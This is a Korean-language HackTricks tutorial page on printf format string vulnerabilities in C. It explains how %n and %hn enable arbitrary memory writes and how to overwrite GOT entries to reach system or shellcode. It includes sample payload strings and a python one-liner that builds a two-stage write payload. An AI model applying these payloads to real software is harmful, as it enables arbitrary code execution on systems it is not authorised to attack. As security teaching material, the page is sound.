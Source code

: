 # 포맷 문자열

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)를 통해 제로부터 AWS 해킹을 배우세요</strong></summary>

* **사이버 보안 회사**에서 일하시나요? **HackTricks에 귀사를 광고하고 싶으신가요**? 혹은 **PEASS의 최신 버전에 액세스하거나 HackTricks를 PDF로 다운로드**하고 싶으신가요? [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인해보세요!
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견해보세요, 저희의 독점 [**NFT 컬렉션**](https://opensea.io/collection/the-peass-family)
* [**공식 PEASS & HackTricks 스왹**](https://peass.creator-spring.com)을 받아보세요
* [**💬**](https://emojipedia.org/speech-balloon/) [**Discord 그룹**](https://discord.gg/hRep4RUj7f)이나 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **해킹 트릭을 공유하고 싶으시다면** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **및** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **로 PR을 제출**해주세요.

</details>

## 기본 정보

C 언어에서 **`printf`**는 **문자열을 출력**하는 데 사용할 수 있는 함수입니다. 이 함수가 기대하는 **첫 번째 매개변수**는 **포매터가 있는 원시 텍스트**입니다. 기대되는 **다음 매개변수**는 원시 텍스트에서 **포매터를 대체**할 **값들**입니다.

취약점은 **공격자 텍스트가 이 함수의 첫 번째 인수로 들어갈 때** 발생합니다. 공격자는 **printf 포맷 문자열 기능을 악용**하여 **임의의 데이터를 임의의 주소에 쓸 수 있게**하는 **특수 입력을 조작**할 수 있습니다. 이렇게 함으로써 **임의의 코드를 실행**할 수 있게 됩니다.

포매터:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**`%n`**은 **지정된 주소에 쓰여진 바이트 수**를 **작성**합니다. 쓰여져야 하는 **16진수 숫자만큼 바이트를 쓰는 것**이 원하는 **데이터를 쓰는 방법**입니다.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
### **Exploit Flow**

이 취약점을 통해 **임의의 주소에 아무 것이나 쓸 수 있습니다 (임의 쓰기).**

목표는 나중에 호출될 **GOT** 테이블의 **함수**의 **주소를 덮어쓰는 것**입니다. 이상적으로는 실행 가능한 섹션에 있는 **쉘코드의 주소를 설정**할 수 있지만, 실행 가능한 섹션에 쉘코드를 작성할 수 없을 가능성이 높습니다.\
따라서 다른 옵션은 **사용자로부터 인수를 받는 함수**를 **덮어쓰고** 이를 **`system` 함수**로 지정하는 것입니다.

주소를 쓰기 위해 일반적으로 2단계를 거칩니다: 먼저 주소의 **2바이트를 쓰고** 나머지 2바이트를 씁니다. 이를 위해 **`$hn`**을 사용합니다.

**HOB**는 주소의 상위 2바이트를 나타냅니다.\
**LOB**는 주소의 하위 2바이트를 나타냅니다.

따라서 형식 문자열이 작동하는 방식 때문에 먼저 \[HOB, LOB] 중 **더 작은 것을 먼저 써야** 합니다.

만약 HOB < LOB이면\
`[주소+2][주소]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

만약 HOB > LOB이면\
`[주소+2][주소]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

\`python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'\`

## Pwntools Template

이러한 취약점에 대한 exploit을 준비하기 위한 템플릿을 찾을 수 있습니다:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* **사이버 보안 회사**에서 일하시나요? **HackTricks에 귀사를 광고하고 싶으신가요**? 또는 **PEASS의 최신 버전에 액세스하거나 HackTricks를 PDF로 다운로드**하고 싶으신가요? [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 저희의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* [**공식 PEASS & HackTricks 스왹**](https://peass.creator-spring.com)을 받아보세요
* **💬** [**Discord 그룹**](https://discord.gg/hRep4RUj7f)에 가입하거나 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **트위터** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**를 팔로우하세요**.
* **해킹 요령을 공유하려면** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **및** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **로 PR을 제출하세요**.

</details>
